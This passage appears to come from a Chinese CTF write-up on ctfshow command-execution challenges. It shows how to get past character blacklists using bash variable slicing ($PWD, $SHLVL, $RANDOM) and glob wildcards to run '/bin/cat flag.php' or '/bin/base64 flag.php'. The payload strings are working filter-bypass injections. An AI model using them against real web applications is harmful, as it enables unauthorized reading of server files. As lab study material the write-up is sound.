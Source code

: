    >
   > ```
   > ${PHP_CFLAGS:${PHP_VERSION:${PHP_VERSION:~A}:~${SHLVL}}:${PHP_VERSION:${PHP_VERSION:~A}:~${SHLVL}}} ????.???
   > ```

2. 构造`/bin/cat flag.php`，就是hint给出的：

   ```
   ${HOME:${#HOSTNAME}:${#SHLVL}}     ====>   $HOME的第$HOSTNAME个后取$SHLVL个为t
   ```

3. 参考ly's师傅的：[ctfshow-命令执行Ly's的博客-CSDN博客](https://blog.csdn.net/weixin_45794666/article/details/111403030)

   > 构造 `/bin/base64 flag.php`，因为`?`和`空格`没被过滤,所以只需要用内部函数构造/和4就行
   >
   > ```
   > /???/???4 ???.???
   > ```
   >
   > 
   >
   > 用到的内置变量：
   >
   > 1. `$RANDOM` 产生随机整数 范围在0 - 32767之间
   > 在linux中可以用 `${#变量}`显示变量的长度
   > 那么`${#RANDOM}`就有概率得到4了，多请求几次即可
   >
   > 2. `$PWD`为/var/www/html,这里也没有过滤,变量前一位为::1
   > 但是1也是被过滤的,所以还需要构造1
   >
   > 3. `SHLVL` 是记录多个 Bash 进程实例嵌套深度的累加器
   >
   > 默认开始是1，那么就利用他来构造1
   >
   > ```
   > ${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM} ????.???
   > /bin/base64 flag.php
   > ```



## 120

> 长度不能超过65
>

PHP_CTLAGS=-fstack-protectxxxxxx64
PHP_VERSION=7.3.22
SHLVL=2（深度，默认为1）

构造指令 `/bin/base64 flag.php`

```
${PWD::${#SHLVL}} = / ; 
${#RANDOM}取生成随机数的长度,只要是四位数就能得到base64的flag
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM} ????.???
```
